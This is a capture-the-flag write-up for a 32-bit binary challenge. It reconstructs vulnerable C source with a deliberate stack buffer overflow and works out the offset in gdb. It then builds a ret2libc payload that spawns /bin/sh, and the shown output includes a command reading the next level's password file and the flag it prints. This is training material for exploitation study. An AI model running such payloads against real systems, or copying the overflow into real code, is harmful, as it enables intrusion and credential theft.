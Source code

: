 # Level01

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector -m32 -z execstack source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char a_user_name[256];

int verify_user_name()
{
    puts("verifying username....\n");
    return strncmp(a_user_name, "dat_wil", 7);
}

int verify_user_pass(char *a_user_pass)
{
    return strncmp(a_user_pass, "admin", 5);
}

// line differences on main+11 and main+15 (extra use of eax)
int main()
{
    char buf[64]; // 0x1c(%esp)
    int ret; // 0x5c(%esp)

    memset(buf, 0, 64);
    ret = 0;

    puts("********* ADMIN LOGIN PROMPT *********");

    printf("Enter Username: ");
    fgets(a_user_name, 256, stdin);
    ret = verify_user_name();
    if (ret != 0)
    {
        puts("nope, incorrect username...");
        return 1;
    }

    puts("Enter Password: ");
    fgets(buf, 100, stdin);
    ret = verify_user_pass(buf);
    if (ret == 0 || ret != 0)
    {
        puts("nope, incorrect password...");
        return 1;
    }

    return 0;
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe as it has a mechanism to limit the number of bytes read. However, we're reading 100 bytes in `buf` which only has 64 bytes allocated on the stack. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *main+226 # Breaking before leave and pop instructions
Breakpoint 1 at 0x80485b2

(gdb) r # Run the program
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username:
verifying username....

nope, incorrect username...


Breakpoint 1, 0x080485b2 in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xffffd6a0       0xffffd6a0
ebp            0xffffd708       0xffffd708
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 104 bytes:
```
0xffffd708 - 0xffffd6a0 = 68 (104 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x1c(%esp),%eax`. Since there is 104 bytes for the stack, our buffer will therefore require 76 bytes (104 - 28) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 80 bytes (76 + 4).
> If you're struggling, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However, it is recommended to understand the stack layout and how to calculate the offset yourself.

Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There are different ways to solve this challenge, we'll only cover the `ret2libc` method.
> When we refer to padding, we mean the bytes we need to write before reaching the return address.

### Ret2libc

#### Explanation
Ret2Libc (Return-to-Libc) is an exploit technique that redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"
```
> The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.

#### Exploit
We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xf7e6aed0  system
[...]

# Exit
(gdb) info function exit
0xf7e5eb70  exit
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*80 + "\xf7\xe6\xae\xd0" + "\xf7\xe5\xeb\x70" + "\xf7\xf8\x97\xec"
```

Here's the complete exploit:
```python
(python -c 'print("dat_wil"); print("\x90"*80+"\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat)| ./level01
```
> We also have to provide the username `dat_wil` to pass the first check from the `verify_user_name` function.

Let's run it:
```bash
(python -c 'print("dat_wil"); print("\x90"*80+"\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat)| ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

We are now level02! Let's move on to the next level.